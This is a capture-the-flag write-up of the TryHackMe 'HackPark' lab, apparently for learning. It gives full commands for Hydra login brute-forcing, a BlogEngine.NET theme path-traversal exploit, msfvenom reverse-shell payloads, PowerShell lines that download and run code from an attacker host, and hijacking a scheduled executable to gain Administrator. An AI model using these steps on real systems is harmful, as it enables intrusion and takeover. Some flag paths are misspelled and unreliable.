# TryHackMe - HackPark

## Overview

**Room:** HackPark  
**Platform:** TryHackMe  
**Difficulty:** Medium  
**Operating System:** Windows  
**Focus:** Network enumeration, web directory discovery, HTTP form brute-forcing with Hydra, BlogEngine.NET exploitation, reverse shells, Meterpreter, Windows enumeration, and privilege escalation through an insecure scheduled application.

HackPark demonstrates how weak web authentication can expose administrative functionality, how a vulnerable version of BlogEngine.NET can provide remote code execution, and how a writable executable used by a privileged scheduled task can lead to Administrator access.

---

## Attack Path

The compromise followed this chain:

```text
Nmap service enumeration
        ↓
Web application and directory discovery
        ↓
Burp Suite inspection of the administrative login
        ↓
Hydra password brute-forcing
        ↓
Authenticated BlogEngine.NET administration
        ↓
Version discovery: BlogEngine.NET 3.3.6.0
        ↓
Exploit-DB #46353
        ↓
Upload and trigger PostView.ascx
        ↓
Initial reverse shell as iis apppool\blog
        ↓
Generate and execute a Meterpreter payload
        ↓
Enumerate Windows software and processes
        ↓
Identify System Scheduler and its Events directory
        ↓
Inspect scheduled execution logs
        ↓
Replace Message.exe with a reverse-shell payload
        ↓
Obtain a Meterpreter session as HACKPARK\Administrator
        ↓
Complete the user and administrator objectives
```

---

# 1. Network Enumeration and Web Application Discovery

## 1.1. Nmap Scan

I began by scanning the target to identify exposed services and their versions.

```bash
nmap -sC -sV -Pn <TARGET_IP>
```

The options used were:

- `-sC` — runs Nmap's default NSE scripts.
- `-sV` — attempts to identify service versions.
- `-Pn` — skips host discovery and treats the target as online.

The scan revealed a web server on port 80, providing the initial entry point for further enumeration.



## 1.2. Inspecting the Homepage

I navigated to the target's web application:

```text
http://<TARGET_IP>
```

The homepage displayed an image of a clown, which I identified as Pennywise. This answered the room's initial identification question and confirmed that the web application was accessible.


## 1.3. Directory Enumeration with Gobuster

I used Gobuster to discover directories and files that were not directly linked from the homepage.

```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/common.txt
```

The command options were:

- `dir` — performs directory and file enumeration.
- `-u` — specifies the target URL.
- `-w` — supplies the wordlist used to test common paths.

The enumeration helped identify the administrative portal.



## 1.4. Discovering the Administrative Login

I opened the discovered `/admin` portal, which presented a login page.

I tested the default credentials, but the login attempt failed. The application returned the following error:



```text
Login Failed
```



This response was useful because it provided a failure indicator for the subsequent Hydra attack.

The failed attempt also established that I needed to inspect the application's authentication request rather than assuming that the default credentials would work.

---

# 2. Brute-Forcing the Administrative Login with Hydra

## 2.1. Capturing the Login Request with Burp Suite

I used Burp Suite to intercept the administrative login request and inspect the parameters submitted by the application.

The request contained ASP.NET Web Forms parameters, including:

- `__VIEWSTATE`
- `__EVENTVALIDATION`
- `ctl00$MainContent$LoginUser$UserName`
- `ctl00$MainContent$LoginUser$Password`
- `ctl00$MainContent$LoginUser$LoginButton`



The request also contained the return URL:

```text
/Account/login.aspx?ReturnURL=/admin
```

The captured request showed that the application used ASP.NET Web Forms. The login request therefore contained state-related parameters alongside the username and password fields.

**Why this mattered:** Hydra needed to reproduce the form submission accurately and identify the response associated with a failed login. Incorrect field names, missing parameters, or unsuitable state values could prevent the brute-force test from working.

## 2.2. Configuring Hydra

I configured Hydra to test the `admin` username against the RockYou password list.

The command structure was:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -V <TARGET_IP> http-form-post '/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=<VIEWSTATE>&__EVENTVALIDATION=<EVENTVALIDATION>&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed'
```

The options and parameters were:

- `-l admin` — specifies the username being tested.
- `-P /usr/share/wordlists/rockyou.txt` — specifies the password wordlist.
- `-V` — displays each attempted username and password.
- `http-form-post` — selects Hydra's HTTP POST form module.
- `^USER^` — marks the username field Hydra substitutes.
- `^PASS^` — marks the password field Hydra substitutes.
- `Login Failed` — identifies the response associated with an unsuccessful authentication attempt.

The `VIEWSTATE` and `EVENTVALIDATION` values in this example are placeholders for the values captured in Burp Suite. They must be replaced with the corresponding request values when reproducing the test.

ASP.NET state parameters can change between requests. If a static request does not work, the request and any required session state should be inspected again in Burp Suite.

The purpose of this stage was to identify valid administrative authentication without publishing the recovered password in this writeup.



## 2.3. Accessing the Administrative Dashboard

After completing the password-discovery stage, I logged into the administrative portal.

The dashboard exposed administrative functionality, including the About section and the blog's file manager. These features provided the next steps in identifying and exploiting the application.

No recovered password is reproduced in this writeup.



---

# 3. Identifying and Exploiting BlogEngine.NET

## 3.1. Discovering the Application Version

After authenticating, I navigated to the **About** tab to identify the blog software and its version.

The application identified itself as:

```text
BlogEngine.NET 3.3.6.0
```

Knowing the exact version allowed me to research publicly documented vulnerabilities affecting the application.



## 3.2. Researching the Vulnerability

I searched for vulnerabilities affecting BlogEngine.NET 3.3.6.0 and found a relevant Exploit-DB entry.

- **Application:** BlogEngine.NET
- **Version:** 3.3.6.0
- **Exploit-DB ID:** 46353
- **Reference:** https://www.exploit-db.com/exploits/46353



The exploit uses a vulnerable theme-handling path to reach a specially placed ASP.NET user-control file. Under the vulnerable configuration, this can lead to server-side code execution.

This provided a path from authenticated blog administration to remote code execution on the Windows host.

## 3.3. Downloading the Exploit

I downloaded the raw exploit file from Exploit-DB:

```bash
wget https://www.exploit-db.com/raw/46353
```

I renamed the downloaded file to match the filename expected by the exploit instructions:

```bash
mv 46353 PostView.ascx
```

The `.ascx` extension identifies an ASP.NET user-control file, which was relevant to the exploit's execution path.



## 3.4. Configuring the Reverse Shell

I opened the exploit in Nano:

```bash
nano PostView.ascx
```

I modified the callback IP address and port so that the exploit would connect back to my attacker machine. For this stage, I configured my **Attacker IP** and port `9001`.



I then started a Netcat listener:

```bash
nc -lnvp 9001
```

The callback address must correspond to the attacker's reachable TryHackMe network interface. The listener port and the port configured in the exploit must also match.


## 3.5. Uploading the Exploit Through BlogEngine

I used the authenticated blog interface to upload `PostView.ascx`.

The process was:

1. Open the blog's **Content** area.
2. Navigate to the **Posts** section.
3. Open the **Welcome to HackPark** post.
4. Open the file manager from the upper-right area of the interface.
5. Use the upload function to upload `PostView.ascx`.

The uploaded file needed to be placed in the location expected by the exploit.





## 3.6. Triggering the Exploit

With the file uploaded and the Netcat listener running, I navigated to the exploit's trigger URL:

```text
http://<TARGET_IP>/?theme=../../App_Data/files
```



The specially crafted theme path caused the vulnerable application to process the uploaded file. The listener received a reverse connection from the target.

This confirmed that the exploit had provided a working initial foothold.



## 3.7. Identifying the Initial Shell Context

I ran the following command in the Netcat shell:

```cmd
whoami
```

The result was:

```text
iis apppool\blog
```



This identified the initial shell's security context as the IIS application pool account used by the blog.

The shell provided command execution on the target, but it did not provide Administrator privileges. I therefore needed to enumerate the Windows host and identify a separate privilege-escalation path.

---

# 4. Upgrading the Shell to Meterpreter

## 4.1. Generating a Meterpreter Payload

The initial Netcat shell was limited, so I generated a Windows Meterpreter reverse TCP payload.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=4445 -f exe > shell.exe
```



The command options were:

- `-p windows/meterpreter/reverse_tcp` — selects the Windows Meterpreter reverse TCP payload.
- `LHOST` — specifies the attacker's callback IP address.
- `LPORT=4445` — configures the callback port.
- `-f exe` — produces a Windows executable.
- `> shell.exe` — redirects the generated payload into `shell.exe`.

The payload callback settings must match the Metasploit handler configuration. This stage used port `4445`, separate from the port used for the initial Netcat shell.


## 4.2. Hosting and Transferring the Payload

I hosted the payload on my attacker machine using Python's HTTP server:

```bash
python3 -m http.server 8000
```

From the target's existing shell, I downloaded the executable to the Windows temporary directory:

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://<ATTACKER_IP>:8000/shell.exe' -OutFile 'C:\Windows\Temp\shell.exe'"
```

The payload was saved to:

```text
C:\Windows\Temp\shell.exe
```

The URL uses port `8000` because that is the port on which the Python server was started. The attacker IP in the URL must be the address reachable from the target.


## 4.3. Configuring the Metasploit Handler

I launched Metasploit:

```bash
msfconsole
```

I selected the multi-handler module:

```text
use exploit/multi/handler
```

I then configured the handler:

```text
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <ATTACKER_IP>
set LPORT 4445
run
```

The handler waited for the payload to connect.

The IP address configured in `LHOST` must match the reachable callback address used when generating the payload.



## 4.4. Executing the Payload

From the original target shell, I navigated to the directory containing the downloaded executable:

```cmd
cd C:\Windows\Temp
```

I executed the payload:

```cmd
.\shell.exe
```

The payload connected to the Metasploit handler, providing a Meterpreter session.

Meterpreter offered a more capable interface for file access, process inspection, and Windows enumeration.



---

# 5. Windows Enumeration and System Scheduler Privilege Escalation

## 5.1. Downloading WinPEAS

After obtaining Meterpreter, I began enumerating the Windows host for potential privilege-escalation opportunities.

I located the `winPEAS.bak` file on GitHub and downloaded the raw file to my attacker machine at:

```text
/root/Downloads/winPEAS.bak
```

I hosted the file using Python:

```bash
python3 -m http.server 8080
```

This allowed the target to retrieve the enumeration file over HTTP.

I entered a Windows shell from Meterpreter:

```text
shell
```

I then downloaded the file to the target's temporary directory. The intended command was:

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://<ATTACKER_IP>:8080/winPEAS.bak' -OutFile 'C:\Windows\Temp\winPEAS.bak'"
```

The original notes contained a spelling error in `Invoke-WebRequest` and a malformed URL argument; the command above reflects the intended PowerShell syntax.

I then ran the downloaded file from the temporary directory:

```cmd
cd C:\Windows\Temp
.\winPEAS.bak
```

I reviewed the output, particularly the running-process information, for software that might provide a privilege-escalation opportunity.



The important finding was **System Scheduler**, installed under:

```text
C:\Program Files (x86)\SystemScheduler
```

I focused on its `Events` directory because the scheduled-process logs indicated that an application was being executed repeatedly.

## 5.2. Inspecting the System Scheduler Events Directory

I navigated to the System Scheduler installation directory in Meterpreter:

```text
cd "C:\Program Files (x86)\SystemScheduler"
```

I then inspected the `Events` directory:

```text
cd Events
```

The directory listing included:

```text
20198415519.INI
20198415519.INI_LOG.txt
2020102145012.INI
Administrator.flg
SYSTEM_svc.flg
Scheduler.flg
SessionInfo.flg
service.flg
```

The relevant file was:

```text
20198415519.INI_LOG.txt
```



I read the log using Meterpreter:

```text
cat 20198415519.INI_LOG.txt
```

The output contained repeated entries similar to the following:

```text
08/04/19 15:06:01,Event Started Ok, (Administrator)
08/04/19 15:06:30,Process Ended. PID:2608,ExitCode:1,Message.exe (Administrator)
08/04/19 15:07:00,Event Started Ok, (Administrator)
08/04/19 15:07:34,Process Ended. PID:2680,ExitCode:4,Message.exe (Administrator)
08/04/19 15:08:00,Event Started Ok, (Administrator)
08/04/19 15:08:33,Process Ended. PID:2768,ExitCode:4,Message.exe (Administrator)
08/04/19 15:09:00,Event Started Ok, (Administrator)
08/04/19 15:09:34,Process Ended. PID:3024,ExitCode:4,Message.exe (Administrator)
08/04/19 15:10:00,Event Started Ok, (Administrator)
08/04/19 15:10:33,Process Ended. PID:1556,ExitCode:4,Message.exe (Administrator)
08/04/19 15:11:00,Event Started Ok, (Administrator)
08/04/19 15:11:33,Process Ended. PID:468,ExitCode:4,Message.exe (Administrator)
```



The log showed that `Message.exe` was repeatedly executed under the **Administrator** account. The timestamps indicated that the event ran at regular intervals.

This was a significant finding because a scheduled application running with elevated privileges can become a privilege-escalation path if a lower-privileged account can modify the executable that the task launches.


## 5.3. Understanding the Privilege-Escalation Path

The key finding was the combination of:

1. A scheduled application named `Message.exe`.
2. Logs showing that the application ran as Administrator.
3. A replacement procedure that allowed a reverse-shell executable to take the place of the scheduled program.

The privilege-escalation method depended on the ability to modify the executable in the System Scheduler installation directory.

The important security issue was not simply the existence of a scheduled task. It was the possibility of modifying a program that would subsequently execute under a more privileged account.

## 5.4. Replacing Message.exe

I remained in the System Scheduler installation directory and navigated to the `Events` folder, where the relevant scheduled application was located.

I moved the original executable to a backup filename:

```text
mv Message.exe Message.bak
```

I then downloaded the Meterpreter payload from my attacker's Python HTTP server into the System Scheduler directory.

The intended download command was:

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://<ATTACKER_IP>:8000/shell.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\shell.exe'"
```

After transferring the payload, I renamed it to match the scheduled executable's filename:

```text
mv shell.exe Message.exe
```

The objective was to have the scheduled event launch the replacement executable when the event ran again.

The original notes use Meterpreter's `mv` command for the file operations. The paths and filenames must match the actual working directory and the file locations on the target.


## 5.5. Returning to the Metasploit Handler

After replacing the executable, I backgrounded the current Meterpreter session:

```text
background
```

This returned me to the Metasploit console, where I could resume the configured multi-handler and wait for the new callback.

The scheduled event was expected to execute the replacement `Message.exe` under its configured Administrator context. When the replacement payload connected back to the listener, a new Meterpreter session was created.

This stage depended on the replacement being successful, the scheduled event running, and the callback settings matching the active handler.




## 5.6. Verifying Administrator Access

I verified the identity of the new Meterpreter session:

```text
getuid
```

The result was:

```text
Server username: HACKPARK\Administrator
```

This confirmed that the session was running as the local Administrator account on the target.



---

# 6. Completing the Challenge

## 6.1. User Objective

With the initial foothold established and the host enumerated, I completed the user-level objective during the challenge.

The user flag can be found on the Desktop of the user named jeff : `C:\Windows\Users\jeff\Desktop`



## 6.2. Administrator Objective

After the scheduled-executable replacement succeeded, I obtained a Meterpreter session identified as:

```text
HACKPARK\Administrator
```

This confirmed that the privilege-escalation stage had succeeded and that the administrator-level objective could be completed.

The root flag can be found on the Desktop of the Administrator uses : `C:\Windows\Users\Administrrator\Desktop`



---

# Findings

## Finding 1: Weak Administrative Authentication

The administrative login was susceptible to password brute-forcing with Hydra and a common password list.

